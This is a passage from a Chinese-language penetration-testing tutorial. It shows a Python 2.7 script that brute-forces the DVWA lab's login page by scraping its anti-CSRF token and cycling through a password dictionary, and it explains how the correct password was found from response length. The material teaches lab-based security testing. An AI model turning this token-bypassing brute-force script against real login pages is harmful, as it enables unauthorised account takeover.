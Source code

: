    ```
       input_list = soup.find('input', type="hidden") 
       user_token = get_user_token.search(str(input_list)).group()
       return user_token 
   
   if __name__ == '__main__': 
       user_token = get_token("http://192.168.75.100/dvwa/vulnerabilities/brute/")    # 取 Token 的页面 URL
       with open('pass.txt') as f:     # 调字典文件
           i = 0 
           for item in f.readlines(): 
               pos = item.rfind(",") 
               username = 'admin'      # 要猜解的用户名，也可用字典来猜解
               password = item[pos + 1:]
               requrl = "http://192.168.75.100/dvwa/vulnerabilities/brute/" + "?username=" + username.strip() +  "&password=" + password.strip() + "&Login=Login&user_token=" + user_token     # 要爆破的 URL 完整格式
               i += 1 
               print i, username.strip(), password.strip(),
               user_token = get_token(requrl)
   ```

3. 由于该脚本使用 `Python2.7` 版本编写，所以我们使用命令 `python2.7 brute.py` 执行脚本，发现其它密码返回的包长度都是 `4469`，只有正确的密码 `password` 回包长度是`4507`，说明成功猜解出了密码，如图 10-18

   

   ![img](../../img/15622135942472.jpg)

